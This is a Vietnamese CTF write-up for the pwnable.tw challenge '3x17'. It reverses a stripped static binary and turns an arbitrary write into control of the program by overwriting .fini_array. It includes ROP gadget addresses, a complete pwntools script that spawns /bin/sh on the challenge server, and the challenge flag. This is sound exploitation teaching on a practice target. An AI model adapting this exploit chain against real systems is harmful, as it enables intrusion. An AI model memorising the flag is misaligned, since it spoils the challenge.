


**1. Tìm lỗi**

Dùng lệnh ```file``` để kiểm tra:

```
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
```

---> Mở bằng IDA64 ta được:

```
void __fastcall __noreturn start(__int64 a1, __int64 a2, __int64 a3)
{
  __int64 v3; // rax
  unsigned int v4; // esi
  __int64 v5; // [rsp-8h] [rbp-8h] BYREF
  void *retaddr; // [rsp+0h] [rbp+0h] BYREF

  v4 = v5;
  v5 = v3;
  sub_401EB0(
    (__int64 (__fastcall *)(_QWORD, __int64, __int64))sub_401B6D,
    v4,
    (__int64)&retaddr,
    (void (__fastcall *)(_QWORD, __int64, __int64))sub_4028D0,
    (__int64)sub_402960,
    a3,
    (__int64)&v5);
}
```

Hàm ```sub_401B6D```:

```
__int64 sub_401B6D()
{
  __int64 result; // rax
  char *v1; // [rsp+8h] [rbp-28h]
  char buf[24]; // [rsp+10h] [rbp-20h] BYREF
  unsigned __int64 v3; // [rsp+28h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  result = (unsigned __int8)++byte_4B9330;
  if ( byte_4B9330 == 1 )
  {
    printf(1u, "addr:", 5uLL);
    read(0, buf, 0x18uLL);
    v1 = (char *)(int)sub_40EE70((__int64)buf);
    printf(1u, "data:", 5uLL);
    read(0, v1, 0x18uLL);
    result = 0LL;
  }
  if ( __readfsqword(0x28u) != v3 )
    sub_44A3E0();
  return result;
}
```

Hàm ```sub_4028D0```:

```
__int64 __fastcall sub_4028D0(unsigned int a1, __int64 a2, __int64 a3)
{
  __int64 result; // rax
  signed __int64 v5; // r14
  __int64 i; // rbx

  result = init_proc();
  v5 = off_4B40F0 - funcs_402908;
  if ( v5 )
  {
    for ( i = 0LL; i != v5; ++i )
      result = ((__int64 (__fastcall *)(_QWORD, __int64, __int64))funcs_402908[i])(a1, a2, a3);
  }
  return result;
}
```

Hàm ```sub_402960```:

```
__int64 sub_402960()
{
  signed __int64 v0; // rbx

  if ( (&unk_4B4100 - (_UNKNOWN *)off_4B40F0) >> 3 )
  {
    v0 = ((&unk_4B4100 - (_UNKNOWN *)off_4B40F0) >> 3) - 1;
    do
      off_4B40F0[v0--]();
    while ( v0 != -1 );
  }
  return term_proc();
}
```

Sau một hồi đọc source và chạy thử thì có hiểu chương trình sẽ in ra chuỗi add. Mình sẽ nhập địa chỉ vào đó. Sau đó chương trình in ra chuỗi data. Mình sẽ nhập dữ liệu vào và chương trình sẽ lưu dữ liệu mình nhập cho địa chỉ đã nhập trước đó.

Xem cụ thể hơn hàm ```sub_4028D0``` thì nó liên quan đến fini_array:

```
.fini_array:00000000004B40F0                               ; ===========================================================================
.fini_array:00000000004B40F0
.fini_array:00000000004B40F0                               ; Segment type: Pure data
.fini_array:00000000004B40F0                               ; Segment permissions: Read/Write
.fini_array:00000000004B40F0                               _fini_array segment qword public 'DATA' use64
.fini_array:00000000004B40F0                               assume cs:_fini_array
.fini_array:00000000004B40F0                               ;org 4B40F0h
.fini_array:00000000004B40F0 00 1B 40 00 00 00 00 00       off_4B40F0 dq offset sub_401B00         ; DATA XREF: sub_4028D0+4C↑o
.fini_array:00000000004B40F0                                                                       ; sub_402960+8↑o
.fini_array:00000000004B40F8 80 15 40 00 00 00 00 00       dq offset sub_401580
.fini_array:00000000004B40F8                               _fini_array ends
.fini_array:00000000004B40F8
```

Và địa chỉ hàm ```sub_402960``` để call fini_array.

**2. Ý tưởng**

Khi mình nhập địa chỉ hàm main hay là hàm ```sub_401B6D``` vào địa chỉ của fini_array thì nó sẽ tạo 1 vòng lặp đến chết của hàm ```sub_401B6D```.

Từ đó sử dụng ```ROPgadget``` để tạo hàm thực thi tại các địa chỉ sau fini_array.

**3. Khai thác**

Tạo 1 hàm send data để gửi dữ liệu nhiều lần cho tiện

```
def senddata(add, data):
    r.sendlineafter(b'addr:', str(add))
    r.sendafter(b'data:', data)
```

Ta có được địa chỉ của ```main```, ```fini_array```, ```fini_array_call``` như sau:

```
main = 0x401B6D
fini_array = 0x4B40F0
fini_array_call = 0x402960
```

Tiếp theo sử dụng ```ROPgadget``` để lấy các thanh ghi phù hợp

```
pop_rdi = 0x0000000000401696 #1
pop_rsi = 0x0000000000406c30 #2
pop_rdx = 0x0000000000446e35 #3
pop_rax = 0x000000000041e4af #4
syscall = 0x00000000004022b4 #5
leave = 0x0000000000401c4b
```

Khi chèn địa chỉ và giá trị các thanh ghi trên vào sau fini_array thì 88 byte sau đó đã được sử dụng nên dự kiến địa chỉ để ghi chuỗi ```/bin/sh``` sẽ là fini_array + 88. Thử kiểm tra xem có ghi vào được địa chỉ đó không.



Có ngay ```0x4b4148``` thuộc khoảng ```0x4ba000``` đến ```0x4bb000``` nên có thể ghi được.

Ta có script như sau:

```
from pwn import *

exe = ELF('3x17', checksec = False)
#r = process(exe.path)
r = remote('chall.pwnable.tw', 10105)

main = 0x401B6D
fini_array = 0x4B40F0
fini_array_call = 0x402960

pop_rdi = 0x0000000000401696 #1
pop_rsi = 0x0000000000406c30 #2
pop_rdx = 0x0000000000446e35 #3
pop_rax = 0x000000000041e4af #4
syscall = 0x00000000004022b4 #5
leave = 0x0000000000401c4b
rw_section = fini_array + 11*8

def senddata(add, data):
    r.sendlineafter(b'addr:', str(add))
    r.sendafter(b'data:', data)

senddata(fini_array, p64(fini_array_call) + p64(main))
senddata(fini_array + 2*8, p64(pop_rdi) + p64(rw_section))
senddata(fini_array + 4*8, p64(pop_rsi) + p64(0))
senddata(fini_array + 6*8, p64(pop_rdx) + p64(0))
senddata(fini_array + 8*8, p64(pop_rax) + p64(0x3b))
senddata(fini_array + 10*8, p64(syscall) + b'/bin/sh\x00')
senddata(fini_array, p64(leave))
r.interactive()
```

**4. Lấy flag**



```Flag: FLAG{Its_just_a_b4by_c4ll_0riented_Pr0gramm1ng_in_3xit}```